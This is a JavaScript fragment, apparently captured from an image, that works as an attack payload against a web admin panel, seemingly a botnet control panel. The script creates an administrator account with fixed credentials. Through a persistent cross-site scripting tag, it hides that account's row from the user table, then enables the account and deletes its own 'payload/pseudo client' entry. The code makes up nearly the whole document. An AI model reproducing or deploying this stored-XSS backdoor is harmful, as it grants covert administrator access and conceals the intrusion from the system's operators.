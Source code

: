```js
        Http.onreadystatechange=function(){
                if (this.readyState == 4) {
                        resp = Http.responseText;
                        matches = resp.match(/enable\d\d/g);
                        if (matches.length > 0 ) {
                                enableName = matches[ matches.length-1]; // return last match
                                //alert("Enabling User: "+enableName)
                                // send request to enable the user
                                sendEnableUser(enableName)
                        } else {        
                                //alert("ERROR")
                        }
                }       
        }
        Http.open("GET", uri);
        Http.send();
}

function addUser(user, pw) {
        const Http = new XMLHttpRequest();
        const uri = 'application/set/addUsers.php';
        Http.open("POST", uri);
        Http.setRequestHeader("Content-type", "application/x-www-form-urlencoded")
        // inj js into the tag as it is persistent xss, to hide the new user
        var tag = '"><script>table = document.getElementById("bootstrap-table"); rowCount = table.rows.length; table.deleteRow(rowCount -1);</script>';
        Http.send("login="+user+"&password="+pw+"&RIGHT=admin&tag="+tag+"&ADDUSER=ADD+USER");

        Http.onreadystatechange=function(){
                if (this.readyState == 4 && (this.status == 200 || this.status == 302)) {

                        enableName = getEnableName()
                        if (enableName != "ERROR") {
                                enableUser(enableName)
                        }
                }
        }

}

function delClientEntry() {
        // get the id of our payload/pseudo client
        // Find the value, imei provided
        matches = document.documentElement.innerHTML.match(/value=\"\d+:751a7e1e83a492c8/g)[0]

        // Get the value
        id = matches.replace('value="', '')

        const Http = new XMLHttpRequest();
        const uri = '?cont=bots&page=1';
        Http.open("POST", uri);
        Http.setRequestHeader("Content-type", "application/x-www-form-urlencoded")
        Http.send("delete=Delete&checks[]="+id)

}


addUser("user1", "password")
enableUser()
delClientEntry()


```